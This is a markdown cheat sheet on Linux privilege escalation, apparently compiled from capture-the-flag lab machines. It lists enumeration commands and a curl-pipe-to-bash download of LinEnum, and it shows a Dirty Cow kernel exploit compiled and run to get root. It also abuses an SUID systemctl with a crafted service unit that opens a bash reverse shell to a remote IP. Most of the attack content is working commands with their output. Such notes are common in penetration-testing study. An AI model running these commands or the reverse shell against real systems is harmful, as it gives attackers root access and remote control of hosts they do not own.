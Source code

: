 # Privilege Escalation Linux
[TOC]
###### tags: `Security` `PrivilegeEscalation`

# Reference
* [Rebootuser - Local Linux Enumeration & Privilege Escalation Cheat Sheet](https://www.rebootuser.com/?p=1623)
* [linuxprivchecker.py -- a Linux Privilege Escalation Check Script](https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123)
* [mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
* [lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)

# Information Gathering
[Cheat Sheet - Linux|g0tm1lk - Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
## Script
```
cp /opt/Privilege_Escalation/LinEnum/LinEnum.sh .
python3 -m http.server 80
```
```
hype@Valentine:~$ curl 10.10.14.2/LinEnum.sh | bash
```
## Manual
### Operating System
#### Distribution
```
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release      # Debian based
cat /etc/redhat-release   # Redhat based
```
#### Kernel Version
```
cat /proc/version
uname -a
uname -mrs
```
#### Environmental Variables
```
```
### Users / Groups
```
id
who
```
```
sudo -l / sudo -ll
# If no command is specified, list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host. 
www-data@jarvis:/$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
    
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
Run the command as a user other than the default target user (usually root). The user may be either a user name or a numeric user-ID (UID) prefixed with the ‘#’ character (e.g., #0 for UID 0). 
```
example: in `lxd` group: create virtual machine and mount root folder

### Applications & Services & Files
```
ps aux | grep root
ps -ef | grep root
```
```
cat /etc/services
```

```bash
# Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
find / -perm -1000 -type d 2>/dev/null
```

```bash
# SGID (chmod 2000) - run as the group, not the user who started it.
find / -perm -g=s -type f 2>/dev/null # = -perm -2000
# SUID (chmod 4000) - run as the owner, not the user who started it.
find / -perm -u=s -type f 2>/dev/null # = -perm -4000

# SGID or SUID
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
# Quicker search. Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID 
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done
# find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
```
`-exec ls -la {} \;`
### Networking

### Confidential Information

### File Systems

# Privilege Escalation
## [Dirty Cow](https://dirtycow.ninja/)
Race condition in mm/gup.c in the Linux kernel 2.x through 4.x before 4.8.3
```
wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
hype@Valentine:~$ wget 10.10.14.2/dirtycow.c
hype@Valentine:~$ grep gcc dirty.c 
//   gcc -pthread dirty.c -o dirty -lcrypt
hype@Valentine:~$ gcc -pthread dirty.c -o dirty -lcrypt
hype@Valentine:~$ ./dirty 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

mmap: 7fbb000ab000
hype@Valentine:~$ su firefart
Password: 
firefart@Valentine:/home/hype# id
uid=0(firefart) gid=0(root) groups=0(root)
```
## Tools
### [GTFOBins](https://gtfobins.github.io/)
GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

#### example: systemctl
```
find / -perm -4000 2>/dev/null
pepper@jarvis:/$ find / -perm -4000 -ls 2>/dev/null
...
  1312201    172 -rwsr-x---   1 root     pepper     174520 Feb 17  2019 /bin/systemctl
...
```

search systemctl in GTFOBins. It said:
```
sudo sh -c 'cp $(which systemctl) .; chmod +s ./systemctl'

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
So I create a file `wildfootw.service` & `reverse_shell.sh` in `/home/pepper`
in `wildfootw.service`:
```
[Service]
Type=oneshot
ExecStart=/bin/bash /home/pepper/reverse_shell.sh
[Install]
WantedBy=multi-user.target
```

in `reverse_shell.sh`:
```
bash -i >& /dev/tcp/10.10.14.207/7779 0>&1
```
```
systemctl link /home/pepper/wildfootw.service
systemctl start wildfootw.service
```